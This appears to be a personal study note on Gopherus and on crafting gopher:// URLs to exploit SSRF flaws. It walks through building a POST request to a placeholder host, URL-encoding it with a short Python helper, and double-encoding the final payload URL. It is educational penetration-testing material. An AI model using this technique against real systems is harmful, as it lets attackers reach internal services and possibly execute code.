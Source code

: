 ### General Notes

Gopherus is a tool that utilizes the **gopher** protocol to exploit [[SSRF]] vulnerabilities.
- Helps in achieving *remote code execution*.
-  [GitHub repo](https://github.com/tarunkant/Gopherus).

It helps in generating the payload link that will be used to exploit the vulnerability.
- Using the **gopher** protocol, it allows the attacker to add `post` parameters using only the URL, which is something impossible to do in [[HTTP]].

> The **gopher** protocol requires that all special characters use [[Web Encoding]] and be URL-encoded. 

---
### Sending an `HTTP` request with Gopher Protocol

To do that, a valid URL must be created that contains the following:
1. the gopher scheme: `gopher://`
2. the target host: `gopher://server.com`
3. the target port: `gopher://server.com:80/`
4. the underscore and the [[HTTP]] verb: `gopher://server.com:80/_POST`
5. after that follows the [[Transport Layer#TCP]] payload.

```http
POST /index.php HTTP/1.1
Host: server.com
Content-Length: 17
Content-Type: application/x-www-form-urlencoded

username=username
```
- Construct the data that is to be sent using gopher as a TCP packet in order to easily create the TCP payload to be added to the gopher URL.

> For `POST` requests, the `host`, `Content-Length`, and `Content-Type` headers are mandatory. 

6. The next step is to URL encode all the special characters in this TCP payload, and then append it to the link in step 4. (the spaces and new lines in this case.) This can be done using the python library `urllib.parse` and this code:

```python
import urllib.parse

def url_encode():
    print("Enter the string to be url encoded")
    print("Enter 'end' to stop input")
    input_string = ""

    while True:
        line = input()
        if line == 'end':
            break
        else:
            input_string += line + '\n'

    encoded_string = urllib.parse.quote(input_string)
    print("Encoded string:")
    print(encoded_string)
   
url_encode()
```

This outputs: 

```
POST%20/index.php%20HTTP/1.1%0AHost%3A%20server.com%0AContent-Length%3A%2017%0AContent-Type%3A%20application/x-www-form-urlencoded%0A%0Ausername%3Dusername
```

Appending it to the link we have created above in step 4:

```
gopher://server.com:80/_POST%20/index.php%20HTTP/1.1%0AHost%3A%20server.com%0AContent-Length%3A%2017%0AContent-Type%3A%20application/x-www-form-urlencoded%0A%0Ausername%3Dusername
```

7. Then encode it all again one last time, we get the complete gopher url.

```
gopher%3A//server.com%3A80/_POST%2520/index.php%2520HTTP/1.1%250AHost%253A%2520server.com%250AContent-Length%253A%252017%250AContent-Type%253A%2520application/x-www-form-urlencoded%250A%250Ausername%253Dusername
```

---
